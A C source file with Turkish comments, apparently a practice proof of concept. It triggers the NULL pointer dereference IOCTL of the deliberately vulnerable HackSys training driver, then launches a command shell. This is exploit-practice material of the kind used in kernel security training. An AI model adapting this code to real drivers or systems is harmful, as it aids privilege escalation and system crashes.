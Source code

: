 ```c
#include "stdafx.h"
#include <Windows.h>

#define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80A, METHOD_NEITHER, FILE_ANY_ACCESS)

int main()
{
	BOOL Result             = FALSE;
	DWORD Retval            = 0;
	ULONG SahteVeri	        = 0xBEBEB000; // Dikkat, beklediği değer değil farklı bi değer gönderiyoruz
	HANDLE hDeviceHandle    = INVALID_HANDLE_VALUE;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	printf("*** Cekirdegi Kitliyoruz - NULL gosterici cagirimi ***\n");

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	if(hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		&SahteVeri,
		sizeof(SahteVeri),
		NULL,
		0,
		&Retval,
		NULL);

    printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);
	system("cmd");

RETURN:

	if(hDeviceHandle)
	{
		CloseHandle(hDeviceHandle);
	}

    return 0;
}


```
